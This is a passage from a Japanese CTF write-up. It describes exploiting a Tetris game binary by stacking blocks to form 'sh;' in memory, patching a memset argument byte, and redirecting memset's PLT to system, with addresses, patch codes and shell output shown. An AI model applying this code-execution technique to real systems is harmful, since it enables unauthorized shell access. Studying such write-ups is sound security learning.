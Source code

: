 さらにZ, Tを次のように積みます。
```
|.........#|
|.##.....##|
|.##.....##|
|..#ZZ....#|
|.##.ZZ.T##|
|..###.TT##|
|..##...T##|
+----------+
```
これでメモリ上に`sh;`ができます。
あとは左の方にでも適当に積んでいってゲームオーバーに持ち込めばOKです。
さて、この場合`game_object`からオフセット0x15に`sh;`ができるので、ゲームオーバー時のmemsetの引数の下位1バイト0xa0を0xb5に変更します。
IDAでは0x0804954cに0xa0があるので0x154cを0xb5にすれば良さそうです。
また、最初に言ったようにmemsetのGOTをsystemに変更する必要があります。
というかmemsetのPLTでジャンプ先をsystemにすれば良いのか。
IDAでは0x8048622に0x30があるので、0x0622を0x20にすれば良さそうです。
ということで、コードは次の2つになります。
```
SLGOGI
AZZAZT
```
あとはテトリスのブロックの動きを頭に入れてから挑戦しましょう。

できました！
```
Score: 14000

+----------+
|          |
|  #  *    |
|  ##**    |
|   #      |
|   #      |
|####      |
|###       |
| #        |
|##        |
| #        |
| #        |
|##        |
|#         |
|##        |
|##       #|
| ##     ##|
| ##     ##|
|  ###    #|
| ## ## ###|
|  ### ####|
|  ##   ###|
+----------+
ls
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
```